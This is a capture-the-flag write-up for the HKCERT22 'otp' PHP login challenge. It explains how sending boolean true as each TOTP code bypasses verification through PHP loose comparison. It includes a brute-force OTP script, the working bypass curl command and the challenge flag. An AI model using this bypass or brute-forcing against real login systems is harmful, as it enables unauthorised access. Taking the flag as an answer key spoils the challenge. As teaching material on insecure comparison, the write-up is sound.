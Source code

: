 
Name: Wai Han
Challenge Two

---

# Exploration

```
otp/
 ├─ Dockerfile
 ├─ src/
 │   ├─ index.php          ← Login page
 │   ├─ login.php          ← Auth logic (returns flag)
 │   ├─ google2fa.php      ← TOTP library
 │   └─ jsonhandler.php    ← Helper for JSON I/O
 └─ docker-compose.yml
```

docker: 
* base :php:8.1.12-apache-bullseye
* service: otp
* port 8901:80

Flag's given in the dockerfile? `hkcert22{mistakes-off-the-page}`

---

**A brief explanation of the php files as I have no experience with php.**

1. `index.php:`
Presents a login form with fields for username, password, and three OTP fields (otp1, otp2, otp3).  Submits a JSON POST request to /login.php with the form data. Displays success or error messages based on the server’s response.

2. `login.php`:
Handles login requests via JSON input ($DATA).  Contains a hardcoded user database ($USER_DB) with one user: Username: admin Password hash: password_hash("admin", PASSWORD_DEFAULT) Three TOTP secret keys: key1, key2, key3 (generated dynamically using Google2FA::generate_secret_key()).  Validates: Username existence.  Password using password_verify.  Three OTPs using Google2FA::verify_key.  Returns the flag (from $_ENV['FLAG'] or a fake flag) if all checks pass.

3. `google2fa.php`:
Implements TOTP authentication based on the Google Authenticator algorithm.  Key functions: generate_secret_key: Creates a 16-character Base32 secret key.  get_timestamp: Returns the current Unix timestamp divided by 30 (TOTP interval).  base32_decode: Decodes a Base32 string to binary.  oath_hotp: Generates a 6-digit OTP from a binary key and timestamp.  verify_key: Checks if a provided OTP matches the expected OTP for a secret key, allowing a window of ±4 time steps.  oath_truncate: Extracts a 6-digit OTP from an HMAC-SHA1 hash.

4. `jsonhandler.php`:
Utility functions to parse JSON input and send JSON responses with error or success messages.  main.css: Styles the login form for a clean, centered UI.

---- 


## Action Plan

1. First start with common file paths for CTF. 
```
http://localhost:8901/flag
http://localhost:8901/flag.txt
http://localhost:8901/env
http://localhost:8901/info.php
http://localhost:8901/.env
```
Found no vulnerability. Either get 404 or 403.

2. Try the known credentials with arbitrary OTPs:
```
curl -X POST http://localhost:8901/login.php \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin","otp1":"000000","otp2":"000000","otp3":"000000"}'
```
Response: {"error":{"code":500,"message":"wrong otp1","data":"otp1"}}%  

3. Try different combinations of OTP including:
* empty OTP, omit OTP (just username and login), `null` as OTP

4. Maybe Brute Force OTP? But Most likely impossible since the keys seem to regenerate per request.

```python3
import requests
import json

url = "http://localhost:8901/login.php"
headers = {"Content-Type": "application/json"}
payload = {
    "username": "admin",
    "password": "admin",
    "otp1": "000000",
    "otp2": "000000",
    "otp3": "000000"
}

# Test a range of OTPs (e.g., 000000 to 999999)
for i in range(1000000):
    otp = f"{i:06d}"  # Pad to 6 digits
    payload["otp1"] = otp
    payload["otp2"] = otp
    payload["otp3"] = otp
    response = requests.post(url, headers=headers, data=json.dumps(payload))
    if "Congrats" in response.text:
        print("Success:", response.text)
        break
    else:
        print(f"Tried OTP {otp}: {response.text}")
```

5. Try Input Manipulation. (The json_decode function or Google2FA::verify_key might mishandle unexpected input types)

6. Check docker compose log for misconfiguration that can expose environmental variable (FLAG). 

7. Input Manipulation again...

**This is the command that found the solution.**
```
curl -s -X POST http://localhost:8901/login.php \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin","otp1":true,"otp2":null,"otp3":[]}'
```

The response I got was: `{"error":{"code":500,"message":"wrong otp2","data":"otp2"}}%`, which basically means that the first opt got passed the verification.

8. The issue seems to lie in the function `verify_key`

``` php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    $timeStamp = self::get_timestamp();
    if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;
    $binarySeed = self::base32_decode($b32seed);

    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)   // Loose Comparison
            return true;
    return false;
}
```

## Takeaway
```php
// in php language
"123456" == true   // → true
// should use === to disable type juggling ? 
```

## Exploit / Solution
```
curl -X POST http://localhost:8901/login.php -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}' > response.txt && cat response.txt
```

The Flag is in the `response.txt` file.

## Flag
```
hkcert22{mistakes-off-the-page}
```

## Lessons Learned
* Make sure not to use loose comparison for checking secrets.
